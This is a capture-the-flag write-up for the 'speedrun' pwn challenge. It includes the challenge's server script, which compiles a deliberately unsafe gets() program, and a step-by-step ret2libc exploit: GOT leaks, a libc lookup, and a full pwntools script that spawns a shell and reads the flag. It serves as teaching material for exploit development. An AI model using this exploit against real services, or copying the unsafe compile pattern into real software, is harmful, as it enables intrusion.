

# SPEEDRUN
```
Description
I've seen some teams solve pwn challenges almost instantly. I'm sure y'all wonder how. Well, you're about to find out!

Attachments
https://imaginaryctf.org/r/4E9F-speedrun.py nc chal.imaginaryctf.org 42020
```

- File : [speedrun.py](../attachements/speedrun/speedrun.py)
```python
#!/usr/bin/env python3

import os
import sys
import subprocess
import base64
import random
import uuid
import time

code1 = '''
#include <stdio.h>

int main(void) {
	char inp['''

code2 = '''];
	setvbuf(stdout,NULL,2,0);
	setvbuf(stdin,NULL,2,0);
	gets(inp);
	puts("Thanks!");
}
'''

art = '''
██████████████████████████
█░░░▒▒▒░░░▒▒▒░░░▒▒▒░░░▒▒▒█
█░░░▒▒▒░░░▒▒▒░░░▒▒▒░░░▒▒▒█
█▒▒▒░░░▒▒▒░░░▒▒▒░░░▒▒▒░░░█
█▒▒▒░░░▒▒▒░░░▒▒▒░░░▒▒▒░░░█
█░░░██████▒▒▒░░░██████▒▒▒█
█░░░██████▒▒▒░░░██████▒▒▒█
█▒▒▒██████░░░▒▒▒██████░░░█
█▒▒▒██████░░░▒▒▒██████░░░█
█░░░▒▒▒░░░██████▒▒▒░░░▒▒▒█
█░░░▒▒▒░░░██████▒▒▒░░░▒▒▒█
█▒▒▒░░░████████████▒▒▒░░░█
█▒▒▒░░░████████████▒▒▒░░░█
█░░░▒▒▒████████████░░░▒▒▒█
█░░░▒▒▒████████████░░░▒▒▒█
█▒▒▒░░░███░░░▒▒▒███▒▒▒░░░█
█▒▒▒░░░███░░░▒▒▒███▒▒▒░░░█
█░░░▒▒▒░░░▒▒▒░░░▒▒▒░░░▒▒▒█
█░░░▒▒▒░░░▒▒▒░░░▒▒▒░░░▒▒▒█
██████████████████████████
'''

def compile(size):
	filename = "/tmp/bin" + str(uuid.uuid4())
	open(filename + ".c", "w").write(code1 + str(size) + code2)
	subprocess.run(["gcc", "-o", filename, filename + ".c", "-fno-stack-protector", "-no-pie"], capture_output=True)
	os.remove(filename + ".c")
	return filename

def handler(signum, frame):
    print("Out of time!")

filename = compile(random.randint(20,1000))
binary = base64.b64encode(open(filename, "rb").read()).decode()
print(art)
print("I'll see you after you defeat the ender dragon!")

time.sleep(3)

print("---------------------------BEGIN  DATA---------------------------")
print(binary)
print("----------------------------END  DATA----------------------------")

subprocess.run([filename], stdin=sys.stdin, timeout=10)
os.remove(filename)
```

When we connect via ncat, we receive an ELF 64-bit binary (in base64) from a C code looking like that :

```c
int main(void) {
    char inp[<random>];
    setvbuf(stdout,NULL,2,0);
    setvbuf(stdin,NULL,2,0);
    gets(inp);
    puts("Thanks!");
}
```

At each connection the binary is slightly differrent : the size of **inp** is a random number between 20 and 1000.

And we have 10 seconds to spawn a shell and print the flag before the timeout.

So the only thing in the payload that will change will be the padding to trigger the buffer overflow.

## Crafting the payload
We need to do a ret2libc, to achieve this we need to know what version of libc is used on the server.

### Finding the libc
To find the libc we will leak libc address of two functions executed before the payload : **puts** and **gets**

**puts@plt**  address will allow us to print the **got** of our two functions :
```
$ objdump -d binary
[...]
0000000000401030 <puts@plt>:
  401030:    ff 25 e2 2f 00 00        jmp    *0x2fe2(%rip)        # 404018 <puts@GLIBC_2.2.5>
  401036:    68 00 00 00 00           push   $0x0
  40103b:    e9 e0 ff ff ff           jmp    401020 <.plt>
[...]
```

so **puts@plt** is **0x401030**
Then with gdb we will find the got entry for **puts** and **gets**
For **puts@got.plt** :
```
gdb> r
[...]
[-------------------------------------code-------------------------------------]
   0x401193 <main+81>:    mov    eax,0x0
   0x401198 <main+86>:    call   0x401040 <gets@plt>
   0x40119d <main+91>:    lea    rdi,[rip+0xe60]        # 0x402004
=> 0x4011a4 <main+98>:    call   0x401030 <puts@plt>
   0x4011a9 <main+103>:    mov    eax,0x0
   0x4011ae <main+108>:    leave  
   0x4011af <main+109>:    ret    
   0x4011b0 <__libc_csu_init>:    push   r15
Guessed arguments:
arg[0]: 0x402004 --> 0x21736b6e616854 ('Thanks!')
[...]

gdb> disas 0x401030
Dump of assembler code for function puts@plt:
   0x0000000000401030 <+0>:    jmp    QWORD PTR [rip+0x2fe2]        # 0x404018 <puts@got.plt>
   0x0000000000401036 <+6>:    push   0x0
   0x000000000040103b <+11>:    jmp    0x401020
End of assembler dump.
```

so **puts@got.plt** is **0x404018**

Same thing for **gets@got.plt** : **0x404020**

Last thing, a ROP gadget to use these addresses in arguments for **puts** :
```
$ ropper --file binary --search "% rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: % rdi

[INFO] File: binary
0x000000000040107a: adc dword ptr [rax], eax; mov rdi, 0x401142; call qword ptr [rip + 0x2f66]; hlt; nop dword ptr [rax + rax]; ret; 
0x0000000000401198: call 0x1040; lea rdi, [rip + 0xe60]; call 0x1030; mov eax, 0; leave; ret; 
0x000000000040119d: lea rdi, [rip + 0xe60]; call 0x1030; mov eax, 0; leave; ret; 
0x0000000000401077: mov ecx, 0x4011b0; mov rdi, 0x401142; call qword ptr [rip + 0x2f66]; hlt; nop dword ptr [rax + rax]; ret; 
0x0000000000401076: mov rcx, 0x4011b0; mov rdi, 0x401142; call qword ptr [rip + 0x2f66]; hlt; nop dword ptr [rax + rax]; ret; 
0x000000000040107d: mov rdi, 0x401142; call qword ptr [rip + 0x2f66]; hlt; nop dword ptr [rax + rax]; ret; 
0x000000000040120b: pop rdi; ret; 
```

The last one `0x000000000040120b: pop rdi; ret; ` is what we want
Now the first payload will look like :
```
[ padding size+0x8 ] [ ROP ] [ puts@got.plt ] [ puts@plt ] [ ROP ] [ gets@got.plt ] [ puts@plt ] [ main ]
```

The last element `[ main ]` will redirect the code to the start of main to allow us to send the second payload to spawn a shell.

Launching the script gives us the libc addresses and using [blukat](https://libc.blukat.me/) we can get the libc version



- File : [libc6_2.28-10_amd64.so](../attachements/speedrun/libc6_2.28-10_amd64.so)

### Second payload
Now that we know libc offsets and address we can craft the payload to call **system('/bin/sh')**

The second payload will look like :
```
[ padding size+0x8 ] [ ROP ] [ binsh ] [ system ]
```

The shell is executed and we  just have to send `$ cat flag.txt`

Here is the script to auto pwn in less than 10 seconds :

- File : [exploit.py](../attachements/speedrun/exploit.py)
```python
from pwn import *

import base64

conn = remote('chal.imaginaryctf.org', 42020)

p = log.progress('Receiving binary ')

conn.recvuntil(b'---------------------------BEGIN  DATA---------------------------\n')
binary = base64.b64decode(conn.recvuntil(b'\n')[:-1])
conn.recvuntil(b'----------------------------END  DATA----------------------------\n')

p.success('Done')

size_offset = 0x1149
size = struct.unpack('I',binary[size_offset:size_offset+4])[0]

log.info(f'size = {hex(size)}')

# Craft payload

puts_plt = 0x401030

puts_got = 0x404018
gets_got = 0x404020 

rop = 0x40120b

main = 0x401142

payload = b'A'*(size+8)
payload += struct.pack('Q',rop)
payload += struct.pack('Q',puts_got)
payload += struct.pack('Q',puts_plt)
payload += struct.pack('Q',rop)
payload += struct.pack('Q',gets_got)
payload += struct.pack('Q',puts_plt)
payload += struct.pack('Q',main)

conn.send(payload+b'\n')
conn.recvuntil(b'Thanks!\n')

puts_libc = conn.recv(0x6)+b'\x00\x00'
puts_libc = struct.unpack('Q',puts_libc)[0]
log.info('puts_libc @ '+hex(puts_libc))
conn.recvuntil('\n')

gets_libc = conn.recv(0x6)+b'\x00\x00'
gets_libc = struct.unpack('Q',gets_libc)[0]
log.info('gets_libc @ '+hex(gets_libc))
log.info('libc : libc6_2.28-10_amd64')

puts_offset = 0x071910
libc_base = puts_libc - puts_offset
log.info('libc base : '+hex(libc_base))

system_offset = 0x0449c0
system = libc_base + system_offset
log.info('system : '+hex(system))

binsh_offset = 0x181519
binsh = libc_base + binsh_offset
log.info('/bin/sh : '+hex(binsh))

payload = b'A'*(size+8)
payload += struct.pack('Q',rop)
payload += struct.pack('Q',binsh)
payload += struct.pack('Q',system)

conn.send(payload+b'\n')
conn.recvuntil(b'Thanks!\n')

conn.send(b'cat flag.txt\n')
flag = conn.recvall().decode()
log.success('flag : '+flag)
```

```
$ python exploit.py
[+] Opening connection to chal.imaginaryctf.org on port 42020: Done
[+] Receiving binary : Done
[*] size = 0x290
[*] puts_libc @ 0x7f487b88c910
[*] gets_libc @ 0x7f487b88c040
[*] libc : libc6_2.28-10_amd64
[*] libc base : 0x7f487b81b000
[*] system : 0x7f487b85f9c0
[*] /bin/sh : 0x7f487b99c519
[+] Receiving all data: Done (42B)
[*] Closed connection to chal.imaginaryctf.org port 42020
[+] flag : ictf{4ut0m4t1ng_expl0it_d3v????_b7d75e95}
```

flag : `ictf{4ut0m4t1ng_expl0it_d3v????_b7d75e95}`
